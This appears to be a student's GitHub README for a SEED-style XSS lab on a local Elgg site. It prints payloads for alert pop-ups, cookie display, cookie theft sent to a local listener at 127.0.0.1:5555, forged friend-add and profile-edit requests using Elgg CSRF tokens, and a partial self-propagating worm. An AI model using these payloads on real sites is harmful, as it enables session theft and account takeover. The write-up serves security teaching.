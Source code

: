 # cross-site-scripiting-xxs-lab-attack-
here is the detailed git repo of xxs lab attack 
# lab adress 
URL: http://www.xsslabelgg.com
Folder: /var/www/XSS/Elgg/

Task 1: Posting a Malicious Message to Display an Alert Window
# script        
     <script>alert(’This is an attack’);</script>

 ![task1](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/task%201%20alert.png)

     script for showing alert
     <script type="text/javascript"
    src="http://www.loalhost/myscripts.js">
    </script>

 ![task](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/showing%20attack.png)
![task](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20showing%20alert.png)


Task 2: Posting a Malicious Message to Display Cookies
script for showing cookies   
                 
                 <script>alert(document.cookie);</script>
 ![task2](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20cookies.png)

# Task 3: Stealing Cookies from the Victim’s Machine
 #script for stealing cookies from victm mechine 
        
        <script>document.write(’<img src=http://127.0.0.1:5555?c=’
      + escape(document.cookie) + ’ >’);
      </script>

 ![task3](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/script%20for%20stealing%20cookies.png)
 
 # Task 4: Becoming the Victim’s Friend
               script for becoming victoms friend 
                          
                          <script type="text/javascript">
                  window.onload = function () {
                             var Ajax=null;
                  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
           var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
           //Construct the HTTP request to add Samy as a friend.
           var sendurl=...; //FILL IN
          //Create and send Ajax request to add friend
           Ajax=new XMLHttpRequest();
          Ajax.open("GET",sendurl,true);
         Ajax.setRequestHeader("Host","www.xsslabelgg.com");
         Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
         Ajax.send();
          }
        </script>
![task4](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/add%20friends%20to%20aice.png)
 
 
 

Task 5: Modifying the Victim’s Profile
#script for modifiying victoms profile 

          <script type="text/javascript">
            window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
            
            var userName=elgg.session.user.name;
<!-- var guid="&guid="+elgg.session.user.guid;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var content=...; //FILL IN
  var samyGuid=...; //FILL IN
if(elgg.session.user.guid!=samyGuid) ➀
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script> -->

![task5](https://github.com/ghulammohiodin/cross-site-scripiting-xxs-lab-attack-/blob/3c913a3e6df71b8ea67afc9863394568a834c2e2/editing%20friends%20profile.png)


Task 6: Writing a Self-Propagating XSS Worm

# link approach 
<!-- <script type="text/javascript" src="localhost.com/xss_worm.js">
</script> -->

# Dom approach
<!-- <script id=worm>
var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ➀
var jsCode = document.getElementById("worm").innerHTML; ➁
var tailTag = "</" + "script>"; ➂
var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); ➃
alert(jsCode);
</script> -->

 
 
 
 
 





